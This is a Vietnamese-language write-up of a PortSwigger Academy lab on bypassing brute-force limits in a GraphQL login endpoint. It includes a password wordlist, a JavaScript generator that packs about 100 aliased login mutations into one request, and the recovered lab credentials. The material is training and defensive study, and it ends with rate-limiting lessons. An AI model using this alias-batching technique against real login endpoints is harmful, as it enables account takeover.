 # Write-up: Bypassing GraphQL brute force protections

### Tổng quan
Khai thác lỗ hổng trong cơ chế bảo vệ chống brute force của API GraphQL, nơi endpoint `/graphql/v1` cho phép gửi nhiều mutation `login` trong một request thông qua alias, bỏ qua giới hạn số lần thử. Bằng cách sử dụng JavaScript để tạo alias cho danh sách mật khẩu và gửi qua InQL, kẻ tấn công tìm được mật khẩu của tài khoản `carlos`, đăng nhập và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng thiếu bảo vệ chống brute force trong endpoint GraphQL `/graphql/v1`, sử dụng alias để thử nhiều mật khẩu trong một request, tìm mật khẩu của `carlos`, đăng nhập và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- InQL (Burp Suite Extension)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `carlos` và mật khẩu bất kỳ, bắt request trong Burp Proxy:  
    ![login](./images/1_login.png)
- **Phân tích**:  
  - Endpoint `/graphql/v1` xử lý mutation `login` với tham số `username` và `password`.  
  - Phản hồi chứa `token` và `success`, cho biết đăng nhập thành công hay không.  
  - Không thấy giới hạn số lần thử, nhưng có thể server giới hạn số request. Sử dụng alias trong GraphQL để gửi nhiều mutation trong một request:  
    ![Request GraphQL login](./images/1_graphql_login_request.png)  

2. **Tạo payload brute force**  
- Sử dụng danh sách mật khẩu từ PortSwigger:  
  ```
  123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow
  ```  
- Mở DevTools (F12) trong Firefox, chạy script JavaScript để tạo alias cho mutation `login`:  
  ```javascript
  copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
  bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
  }
    `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
  ```  
  ![Script tạo alias](./images/2_brute.png)  
- Kết quả: Script tạo query GraphQL với nhiều alias (mỗi alias là một mutation `login` với mật khẩu khác nhau):  
  ```
  bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
  }
  bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
  }
  ...
  bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
  }
  ```  
- Copy query vào clipboard:  

3. **Khai thác (Exploitation)**  
- Sử dụng InQL (Burp Suite Extension) để gửi request GraphQL với query chứa alias:  
- Kết quả: Phản hồi cho thấy alias `bruteforce27` (mật khẩu `7777777`) trả về `success: true` và một `token`: 
- **Phân tích**: Mật khẩu của `carlos` là `7777777`:  
  ![Kết quả brute force](./images/3_password.png)  

4. **Đăng nhập và hoàn thành lab**  
- Sử dụng thông tin đăng nhập `carlos:7777777` để đăng nhập:  
  ```
  POST /login HTTP/2
  Host: 0abe0092031c7849811fa2d200380047.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  username=carlos&password=7777777
  ```  
- Kết quả: Đăng nhập thành công, nhận cookie `session` mới:  
- Truy cập `/my-account` hoặc endpoint liên quan để xác nhận hoàn thành lab:  
  ![Lab hoàn thành](./images/4_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng alias trong query GraphQL để gửi nhiều mutation `login` trong một request, bypass cơ chế chống brute force, tìm mật khẩu `7777777` cho tài khoản `carlos`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng thiếu bảo vệ chống brute force trong API GraphQL, sử dụng alias để gửi nhiều mutation `login` trong một request, bypass giới hạn số lần thử.  
- Nhận thức tầm quan trọng của việc triển khai giới hạn số lần thử (rate limiting) và kiểm tra số lượng alias trong query GraphQL để ngăn chặn các cuộc tấn công brute force.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng thiếu bảo vệ chống brute force trong API GraphQL, nhấn mạnh tầm quan trọng của việc triển khai rate limiting và kiểm tra query để ngăn chặn lạm dụng alias. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*